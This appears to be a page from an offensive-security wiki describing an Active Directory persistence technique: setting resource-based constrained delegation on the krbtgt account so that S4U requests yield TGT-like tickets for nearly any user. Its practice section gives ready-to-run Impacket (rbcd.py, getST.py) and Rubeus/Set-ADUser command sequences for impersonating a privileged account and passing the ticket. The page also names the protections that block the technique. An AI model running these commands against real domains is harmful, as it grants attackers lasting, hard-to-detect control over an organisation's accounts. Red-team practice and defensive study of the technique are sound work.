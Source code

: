 # Delegation to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](../../movement/domain-settings/machineaccountquota.md)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. Since a TGT is just a service ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work ([not mandatory though](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](../../movement/kerberos/ptt.md) to use the TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Every step of this attack can be achieved using one of the following scripts from Impacket : rbcd.py and getST.py.

{% code overflow="wrap" %}
```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
Every step of this attack can be achieved using Rubeus and the Set-ADUser command.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
<strong>Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash
</strong>
# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt
</code></pre>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence" %}

{% embed url="https://skyblue.team/posts/delegate-krbtgt/" %}

{% content-ref url="../../movement/kerberos/delegations/rbcd.md" %}
[rbcd.md](../../movement/kerberos/delegations/rbcd.md)
{% endcontent-ref %}
